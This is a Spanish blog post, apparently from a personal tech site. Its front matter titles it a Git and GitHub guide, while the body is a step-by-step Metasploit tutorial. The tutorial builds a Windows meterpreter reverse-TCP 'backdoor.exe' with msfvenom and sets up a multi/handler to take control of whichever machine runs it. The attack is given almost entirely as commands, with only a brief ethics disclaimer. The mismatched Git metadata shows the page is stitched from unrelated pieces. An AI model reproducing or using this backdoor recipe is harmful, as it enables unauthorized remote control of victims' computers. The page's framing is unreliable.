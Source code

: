 ```yaml
---
# documentmode: jou  # Modo de documento: Can be jou (journal), man (manuscript), stu (student), or doc (document)
    # - man (Manuscrito): Similar al formato .docx
    # - jou (Revista): Un formato pulido de dos columnas similar a muchas revistas APA.
    # - doc (Documento): Similar al predeterminado LaTex artículos.
    # - stu (Estudiante): Formateado para trabajos de estudiantes
# MODO ESTUDIANTE (STU)
# course: Metodología (EDUC 5101)
# professor: Dr. Edison Achalma Mendoza
# duedate: 01/23/2022
# MODO REVISTA (JOU)
# journal: The American Economic Review # Econometrica, The American Economic Review, Revista de Economía, Revista de la CEPAL
# volume: 2025, Vol. 131, No. 2, 10--60
copyrightnotice: 2024
copyrightext: All rights reserved
# image: featured.png
title: Guía de Git Cómo trabajar en equipo en proyectos
subtitle: Aprende a usar Git para controlar versiones, colaborar con otros desarrolladores y mantener tu código organizado.
shorttitle: "Editar"
abstract: |
  Primer parrafo de abstrac
keywords: [keyword1, keyword2]
categories:
  - Operating System
  - GitHub
tags:
  - Git
  - GitHub
  - Colaboración
  - DesarrolloDeSoftware
  - GitBasics
  - GitAdvanced
  - GitTips
  - OpenSource

# Nota del Autor
author-note:
  status-changes: 
    # Ejemplo: [Nombre del autor] está ahora en [afiliación].
    affiliation-change: ~
    # Ejemplo: [Nombre del autor] ha fallecido.
    deceased: ~
  # Las divulgaciones se condensan en un párrafo, pero puede iniciar un campo con dos saltos de línea para separarlas: \n\nNew 
  disclosures:
    # Ejemplo: Este estudio se registró en X (Identificador Y).
    study-registration: ~
    # Reconozca y cite los datos/materiales que se van a compartir.
    data-sharing: ~
    # Ejemplo: Este artículo se basa en datos publicados en [Referencia].
    # Ejemplo: Este artículo se basa en la disertación realizada por [cita].
    related-report: ~
    # Ejemplo: [Nombre del autor] ha sido consultor remunerado de la Corporación X, que ha financiado este estudio.
    conflict-of-interest: El autor no tiene conflictos de interés que revelar.
    # Ejemplo: Este estudio ha contado con el apoyo de la subvención [Número de subvención] de [Fuente de financiación].
    financial-support: ~
    # Ejemplo: Los autores agradecen a [Persona] por [Motivo].
    gratitude: ~
    # Ejemplo. Dado que los autores contribuyen por igual, el orden de autoría se determinó mediante el lanzamiento de una moneda al aire.
    authorship-agreements: ~

description: '' # Texto que se muestra debajo de las etiquetas, no en la página del listado
# links:
# - icon: pin-map-fill
#   name: Collection of maps
#   url: /project/2024-06-16-ccd-sips #./../talk/2021-03-16-xaringan-deploy-demo/
# - icon: github
#   icon_pack: fab
#   name: R-Ladies template files
#   url: https://github.com/spcanelon/RLadies-xaringan-template
eval: false # true(predeterminado): evaluar celda de código, false: no evaluar la celda de código
# Google Scholar
# bibliography: mybibliography.bib
citation:
  type: article-journal
  author:
    - Edison Achalma
  pdf-url: https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-02-16-guia-de-git-y-github/index.pdf
date: "02/16/2023"
draft: false  # Modo de borrador (false = final, true = borrador)
---
```










# Creando y Ejecutando un Payload Malicioso con Metasploit: Una Guía Paso a Paso

Hola a todos! Hoy vamos a sumergirnos en el fascinante mundo de la seguridad informática y la creación de un payload malicioso usando Metasploit. Si bien esta guía es con fines educativos, es crucial recordar que utilizar estas herramientas para actividades maliciosas es ilegal y antiético. ¡Usémoslas para aprender y proteger!

# Paso 1: Obtener la Dirección IP con ifconfig

Primero, necesitamos conocer nuestra dirección IP local para configurar el payload. Usamos el comando `ifconfig` para obtener esta información. Abre tu terminal y escribe:

```sh
ifconfig
```

Esto mostrará todas las interfaces de red y sus respectivas direcciones IP. Busca la IP de tu red local. En este ejemplo, supongamos que es `192.168.122.152`.

# Paso 2: Crear el Payload con msfvenom

Ahora que tenemos nuestra dirección IP, vamos a crear el payload. Usaremos `msfvenom`, una herramienta que viene con Metasploit para generar payloads maliciosos. Queremos crear un payload que permita un acceso remoto a una máquina con Windows. Usamos el siguiente comando:

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.122.152 LPORT=4444 -f exe -o backdoor.exe -a x64
```

Desglosamos el comando:

- `-p windows/x64/meterpreter/reverse_tcp`: Especificamos el payload, que en este caso es un Meterpreter reverse TCP para Windows de 64 bits.
- `LHOST=192.168.122.152`: Establecemos nuestra dirección IP local como el host de escucha.
- `LPORT=4444`: Elegimos el puerto de escucha (puedes cambiarlo si es necesario).
- `-f exe`: Indicamos que el formato de salida debe ser un archivo ejecutable de Windows.
- `-o backdoor.exe`: Nombramos el archivo de salida `backdoor.exe`.
- `-a x64`: Especificamos la arquitectura del payload (64 bits).

# Paso 3: Configurar el Handler en Metasploit

Una vez que tenemos nuestro payload, necesitamos configurar un handler en Metasploit para escuchar las conexiones entrantes. Iniciamos Metasploit con:

```sh
msfconsole -q
```

La opción `-q` es para iniciar Metasploit en modo silencioso.

# Paso 4: Configurar el Exploit Handler

En la consola de Metasploit, seguimos estos pasos:

1. **Seleccionar el handler**:

   ```sh
   msf6 > use exploit/multi/handler
   ```

   Esto indica que usaremos el módulo handler para gestionar la conexión entrante.

2. **Configurar el payload**:

   ```sh
   msf6 > set payload windows/x64/meterpreter/reverse_tcp
   ```

3. **Establecer el LHOST y LPORT**:

   ```sh
   msf6 > set lhost 192.168.122.152
   msf6 > set lport 4444
   ```

4. **Verificar las opciones**:

   ```sh
   msf6 > show options
   ```

   Esto muestra todas las opciones configuradas para asegurar que todo esté correcto.

# Paso 5: Ejecutar el Handler

Finalmente, ejecutamos el handler para empezar a escuchar conexiones:

```sh
msf6 > run
```

Ahora, el handler está activo y esperando que alguien ejecute el `backdoor.exe` en su máquina. Cuando esto suceda, obtendrás una sesión de Meterpreter y podrás interactuar con la máquina comprometida.

# Conclusión

Este proceso demuestra cómo se puede crear y manejar un payload malicioso usando Metasploit. Nuevamente, subrayo la importancia de utilizar este conocimiento de manera ética y legal, principalmente para probar y fortalecer la seguridad de sistemas. Siempre asegúrate de tener permiso para realizar estas pruebas.

Espero que hayas encontrado esta guía informativa y útil. ¡Hasta la próxima!







# Publicaciones Similares

Si te interesó este artículo, te recomendamos que explores otros blogs y recursos relacionados que pueden ampliar tus conocimientos. Aquí te dejo algunas sugerencias:


1. [Usando Apk En Windown 11](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2021-10-21-usando-apk-en-windown-11) Lee sin conexión [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2021-10-21-usando-apk-en-windown-11/index.pdf)
2. [Comandos Vim](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2022-09-27-comandos-vim) Lee sin conexión [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2022-09-27-comandos-vim/index.pdf)
3. [Guia De Git Y Github](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-02-16-guia-de-git-y-github) Lee sin conexión [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-02-16-guia-de-git-y-github/index.pdf)
4. [00 Primeros Pasos En Linux](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-05-02-00-primeros-pasos-en-linux) Lee sin conexión [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-05-02-00-primeros-pasos-en-linux/index.pdf)
5. [01 Introduccion Linux](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-06-17-01-introduccion-linux) Lee sin conexión [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-06-17-01-introduccion-linux/index.pdf)
6. [02 Distribuciones Linux](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-06-18-02-distribuciones-linux) Lee sin conexión [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-06-18-02-distribuciones-linux/index.pdf)
7. [03 Instalacion Linux](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-06-19-03-instalacion-linux) Lee sin conexión [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-06-19-03-instalacion-linux/index.pdf)
8. [04 Administracion Particiones Volumenes](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-06-20-04-administracion-particiones-volumenes) Lee sin conexión [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-06-20-04-administracion-particiones-volumenes/index.pdf)
9. [Atajos De Teclado Y Comandos Para Usar Vim](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-07-01-atajos-de-teclado-y-comandos-para-usar-vim) Lee sin conexión [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-07-01-atajos-de-teclado-y-comandos-para-usar-vim/index.pdf)


Esperamos que encuentres estas publicaciones igualmente interesantes y útiles. ¡Disfruta de la lectura!

